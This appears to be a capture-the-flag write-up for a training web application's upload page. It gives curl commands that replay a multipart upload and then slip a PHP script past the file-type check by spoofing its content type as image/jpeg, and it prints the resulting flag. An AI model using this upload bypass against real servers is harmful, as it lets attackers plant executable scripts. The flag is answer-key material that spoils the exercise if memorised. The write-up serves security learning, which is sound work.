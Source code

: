 # upload

We go to `?page=upload`. We see a file input, and an `Upload` button.

We upload a JPEG and see what happens. It seems to have uploaded. We inspect the Network tab and determine the following :

- The `Upload` button initiates a POST request
- The content is a three-part `multipart/form-data`
- The first part is a key-value pair : `MAX_FILE_SIZE` = `100000`
- The second part is a file content pair : `uploaded` = `[The contents of the file we uploaded]`
- The third part is a key-value pair : `Upload` = `Upload`

`curl` can send `multipart/form-data` requests, using the following syntax :

```
curl -X POST -F "key=value" -F "file=@path_to_file TARGET_URL"
```

We start by replicating the page's behaviour :

```
curl -X POST -F "MAX_FILE_SIZE=100000" -F "uploaded=@flower.jpg" -F "Upload=Upload" http://DARKLY_URL/index.php?page=upload
```

When we run it, the file uploads.

Now, we want to upload something else ; a malicious script, for example. We try to upload `script.php` instead of the jpeg, but the server rejects it ; it must check file type.

Fortunately, `curl` allows us to specify the file type of our multipart request using `-F "file=@path_to_file;type=SPECIFIED_TYPE"`.

We run the following command to send a spoofed request :

```
curl -i -X POST -F "MAX_FILE_SIZE=100000" -F "uploaded=@script.php;type=image/jpeg" -F "Upload=Upload" http://DARKLY_URL/index.php?page=upload
```

It works ! We get the flag :

```
46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8
```